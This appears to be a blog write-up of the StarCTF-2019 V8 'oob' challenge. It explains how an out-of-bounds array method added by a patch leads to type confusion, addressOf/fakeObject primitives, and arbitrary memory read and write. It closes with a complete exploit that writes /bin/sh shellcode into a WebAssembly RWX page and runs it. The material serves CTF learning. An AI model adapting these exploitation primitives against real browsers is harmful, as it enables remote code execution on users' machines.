 ```yaml
---
title: v8 oob
date: 2021-10-01 10:22:19
tags: v8
---
```

Curt write up for a classic challenge V8-OOB
<!--more-->
# What's OOB

OOB is a challenge on StarCTF-2019. It's a basic but classical one.

# Basic for JS

V8 is an open source engine for JavaScript which is implemented in Chrome.

There are several passages for setting up the environment, learning some basic knowledge for about the JavaScript and V8.

1. V8 Compiling

[V8 env](https://mem2019.github.io/jekyll/update/2019/07/18/V8-Env-Config.html)

2. object's structure

[Fast properties in V8](https://v8.dev/blog/fast-properties)

3. oob

[oob](https://www.freebuf.com/vuls/203721.html)

# OOB

The challenge gives a diff file to implement a vulnerability. 

```bash
git apply < oob.diff
```

The diff file adds a vulnerable method. In short, `array.oob()` would return `array[array.length]`  and `array.oob(x)` would set `array[array.length] =x` . As we all know, the subscript of an n-element-array is [0,n-1]. There for we could read and write the data out of the array. In V8, according to the structure of the object, it's the map of the object. 

So what can we do if we could read and modify any object's map? Yes, we can confuse the type explaining of the object. If we take an array of floats as an array of objects, we could read the address of the object while taking an array of objects as an array of floats, it would create a fake object. That's what we could exploit from OOB. 

# `addressOf` and `fakeObject`

More specifically, we could use `oob()` to get the map of float array and object array.

```jsx
var obj = [a:"a"];
var obj_array = [obj];
var float_array = [1.1];
// map_of_obj_array & map_of_float_array 
var mo = obj_array.oob();
var mf = float_array.oob();
```

And we could modify the map of an object to perform `addressOf` and `fakeObject`.

```jsx
function addressOf(obj)
{
	obj_array[0] = obj;
	obj_array.oob(mf);
	let res = f2i(obj_array[0])-1n;
	obj_array.oob(mo);
	return res;
}
function fakeObject(address)
{
	float_array[0] = i2f(address+1n);
	float_array.oob(mo);
	let res = float_array[0];
	float_array.oob(mf);
	return res;
}
```

- i2f is a function converts big `unsigned int` to `float`.
- f2i is a function converts float to `big` unsigned `int`.
- you can find it in [cheatsheet](https://n132.github.io/cheatsheet/)

# `aar` and `aaw`

We could conduct `aar(arbitrary address read)` and `aaw(arbitrary address write)` functions from `addressOf` and `fakeObject`. By faking a float array and modifying its element.

```jsx
var tmp = [1.1,1.1,1.1,1.1];
var mt = tmp.oob();
var fake = [mt,i2f(0n),i2f(0n),i2f(0x400000000n),1.1,1.1];
var fake_obj = fakeObject(addressOf(fake)-0x30n);
function aar(address)
{
	fake[2] = i2f(address-0xfn);
	return f2i(fake_obj[0]);
}
function aaw(address,value)
{
	fake[2] = i2f(address-0xfn);
	fake_obj[0] = i2f(value);
}
```

Now we can read and write arbitrary address in the memory. 

# Get shell

1. search in the memory to find some useful address→ get libc-base address → hijack hooks → get shell
2.  find some useful address in array.map.constructor.code.
3. `Web asm`, [https://wasdk.github.io/WasmFiddle/](https://wasdk.github.io/WasmFiddle/), find the rwx page in `wasmInstance.exports.main()` and modify the content to run our shellcode.

# EXP(Wasm)

```jsx
var _b = new ArrayBuffer(16);
var _f = new Float64Array(_b);
var _i = new BigUint64Array(_b);
function f2i(f)
{
	_f[0] = f;
	return _i[0];
}
function i2f(i)
{
	_i[0] = i;
	return _f[0];
}
function hex(i)
{
	return "0x"+i.toString(16).padStart(16,"0");
}
var obj = {a:"a"};
var oa = [obj];
var fa = [1.1];
var mo = oa.oob();
var mf = fa.oob();

function addressOf(obj)
{
	oa[0]=obj;
	oa.oob(mf);
	let res = f2i(oa[0])-1n;
	oa.oob(mo);
	return res;
}
function fakeObj(address)
{
	fa[0] = i2f(address+1n);
	fa.oob(mo);
	let res = fa[0];
	fa.oob(mf);
	return res;
}
var c= [1.1,1.1,1.1,1.1];
var mc = c.oob();
var fake =[
mc,i2f(0n),i2f(0n),i2f(0x1000000000n),1.1,2.2
]
var fakeobj= fakeObj(addressOf(fake)-0x30n);
function aar(addr)
{
	fake[2] = i2f(addr-0xfn);
	return f2i(fakeobj[0]);
}
function aaw(addr,vul)
{

	fake[2] = i2f(addr-0xfn);	
	fakeobj[0] = i2f(vul);
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f= wasmInstance.exports.main;

var sh_addr = aar(aar(addressOf(wasmCode)+0x10n)-1n+0x18n);
var tmp1 = aar(sh_addr);
var shell = [0xf631483bb0c03148n, 0x69622fbf48d23148n, 0x8948570068732f6en,0x50fe7n];

var tmp = aar(addressOf(f)+0x18n)-1n;
tmp = aar(tmp+8n)-1n;
tmp = aar(tmp+0x10n)-1n
tmp = aar(tmp+0x88n)
//console.log(hex(tmp));

var buf =new ArrayBuffer(shell.length*8);
aaw(addressOf(buf)+0x20n,tmp);
var v =new DataView(buf);
for(let i=0;i<shell.length;i++){
	v.setFloat64(i*8,i2f(shell[i]),true);
}
f();
```